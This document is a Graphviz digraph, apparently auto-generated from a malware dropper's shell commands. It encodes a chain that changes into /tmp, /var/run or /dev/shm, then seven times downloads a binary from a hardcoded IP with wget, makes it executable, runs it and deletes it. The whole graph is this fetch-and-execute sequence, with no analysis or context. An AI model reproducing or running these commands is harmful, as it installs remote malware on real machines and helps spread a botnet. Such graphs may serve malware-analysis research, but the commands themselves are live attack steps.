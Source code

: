 digraph {
84 [label="cd /tmp "];
84 -> 84
86 [label="cd /var/run "];
86 -> 88 [label="||,"];
88 [label="cd /dev/shm "];
88 -> 6 [label="||,"];
6 [label="wget -q http://107.182.24.17/hwRV4a "];
6 -> 8 [label=";,"];
8 [label="chmod +x hwRV4a "];
8 -> 10 [label=";,"];
10 [label="./hwRV4a "];
10 -> 12 [label=";,"];
12 [label="rm -f hwRV4a* "];
12 -> 84 [label=";,"];
84 [label="cd /tmp "];
84 -> 84
86 [label="cd /var/run "];
86 -> 88 [label="||,"];
88 [label="cd /dev/shm "];
88 -> 20 [label="||,"];
20 [label="wget -q http://107.182.24.17/fCyu6W "];
20 -> 22 [label=";,"];
22 [label="chmod +x fCyu6W "];
22 -> 24 [label=";,"];
24 [label="./fCyu6W "];
24 -> 26 [label=";,"];
26 [label="rm -f fCyu6W* "];
26 -> 84 [label=";,"];
84 [label="cd /tmp "];
84 -> 84
86 [label="cd /var/run "];
86 -> 88 [label="||,"];
88 [label="cd /dev/shm "];
88 -> 34 [label="||,"];
34 [label="wget -q http://107.182.24.17/k6LgyH "];
34 -> 36 [label=";,"];
36 [label="chmod +x k6LgyH "];
36 -> 38 [label=";,"];
38 [label="./k6LgyH "];
38 -> 40 [label=";,"];
40 [label="rm -f k6LgyH* "];
40 -> 84 [label=";,"];
84 [label="cd /tmp "];
84 -> 84
86 [label="cd /var/run "];
86 -> 88 [label="||,"];
88 [label="cd /dev/shm "];
88 -> 48 [label="||,"];
48 [label="wget -q http://107.182.24.17/vy9Jw2 "];
48 -> 50 [label=";,"];
50 [label="chmod +x vy9Jw2 "];
50 -> 52 [label=";,"];
52 [label="./vy9Jw2 "];
52 -> 54 [label=";,"];
54 [label="rm -f vy9Jw2* "];
54 -> 84 [label=";,"];
84 [label="cd /tmp "];
84 -> 84
86 [label="cd /var/run "];
86 -> 88 [label="||,"];
88 [label="cd /dev/shm "];
88 -> 62 [label="||,"];
62 [label="wget -q http://107.182.24.17/rDcB4V "];
62 -> 64 [label=";,"];
64 [label="chmod +x rDcB4V "];
64 -> 66 [label=";,"];
66 [label="./rDcB4V "];
66 -> 68 [label=";,"];
68 [label="rm -f rDcB4V* "];
68 -> 84 [label=";,"];
84 [label="cd /tmp "];
84 -> 84
86 [label="cd /var/run "];
86 -> 88 [label="||,"];
88 [label="cd /dev/shm "];
88 -> 76 [label="||,"];
76 [label="wget -q http://107.182.24.17/b8Fz3b "];
76 -> 78 [label=";,"];
78 [label="chmod +x b8Fz3b "];
78 -> 80 [label=";,"];
80 [label="./b8Fz3b "];
80 -> 82 [label=";,"];
82 [label="rm -f b8Fz3b* "];
82 -> 84 [label=";,"];
84 [label="cd /tmp "];
84 -> 84
86 [label="cd /var/run "];
86 -> 88 [label="||,"];
88 [label="cd /dev/shm "];
88 -> 90 [label="||,"];
90 [label="wget -q http://107.182.24.17/qAC3xu "];
90 -> 92 [label=";,"];
92 [label="chmod +x qAC3xu "];
92 -> 94 [label=";,"];
94 [label="./qAC3xu "];
94 -> 96 [label=";,"];
96 [label="rm -f qAC3xu* "];
96 -> 97 [label=";,"];
}
